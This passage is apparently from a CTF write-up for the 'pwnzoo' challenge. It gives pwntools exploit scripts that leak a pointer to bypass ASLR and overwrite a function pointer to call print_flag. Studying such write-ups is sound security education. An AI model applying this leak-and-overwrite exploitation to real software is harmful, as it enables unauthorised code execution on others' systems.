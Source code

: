 ```python
io.sendline(b'c')
io.recvuntil(b'New name: ')
io.sendline(cyclic(36))
io.recvuntil(b'Exit\n')
io.sendline(b'2')
io.sendline(cyclic(36) + "\x41\x41\x41\x41\x41\x41\x41\x41")
io.recvuntil(b'Exit\n')
io.sendline(b'1')
io.interactive()
```

We still have to deal with ASLR: The address of the print_flag function gets randomized on every start, therefore we can't just overwrite the pointer with a fixed value. At first I thought it is sufficient to overwrite just one byte of the pointer, but that did not work, due to the added "\x00" bytes. 

So wee need to modify the exploit workflow a bit:

- On initializatzion, provide a 36 character long name, which will overwrite the "\x00" byte from animal_construct
- Invoke the speak function form the menu. This will leak the current pointer value within the returned name
- Use the leaked pointer value to calculate the print_flag address
- Change the name of the animal, providing a 44 character long name (36 random characters + 8 bytes from the calulcated pointer)
- Invoke the speak function from the menu to call the overwritten pointer.

Here is the final exploit

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pwnzoo')
context.terminal = ['tmux', 'splitw', '-h']


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = '''
tbreak main
tbreak construct_animal
continue
'''.format(**locals())

#io = remote('pwnzoo-7fb58ad8.challenges.bsidessf.net', 1234)
io = start()
io.recvuntil(b'dog?')
io.sendline(b'c')
io.recvuntil(b'New name: ')
io.sendline(cyclic(36))
io.recvuntil(b'Exit\n')
io.sendline(b'1')
leak = (int.from_bytes(io.recv().split()[4][36:-1], byteorder='little') & ~0xff)
log.info('Leaked address is' + str((hex(leak))))
io.sendline(b'2')
io.sendline(cyclic(36)+ p64(leak+0x3b))
io.recvuntil(b'Exit\n')
io.sendline(b'1')
```